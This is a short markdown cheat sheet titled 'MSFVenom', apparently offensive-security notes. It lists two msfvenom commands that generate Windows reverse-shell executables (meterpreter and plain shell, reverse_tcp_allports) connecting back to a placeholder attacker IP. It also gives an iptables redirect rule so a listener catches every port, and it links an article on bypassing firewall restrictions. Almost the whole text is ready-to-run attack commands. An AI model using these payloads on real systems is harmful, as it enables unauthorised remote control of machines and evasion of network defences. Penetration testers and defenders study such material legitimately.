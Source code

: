 # MSFVenom

`$ msfvenom -p windows/meterpreter/reverse_tcp_allports lhost=<IP> lport=443 -f exe > rev.exe`

`$ msfvenom -p windows/shell/reverse_tcp_allports lhost=<IP> lport=443 -f exe > rev.exe`

`$ sudo iptables -A PREROUTING -t nat -p tcp --dport 443:5556 -j REDIRECT --to-port 443`

---
## References

- [Bypass Firewall Restrictions Metasploit reverse_tcp_allports](https://www.hackingarticles.in/bypass-firewall-restrictions-metasploit-reverse_tcp_allports/)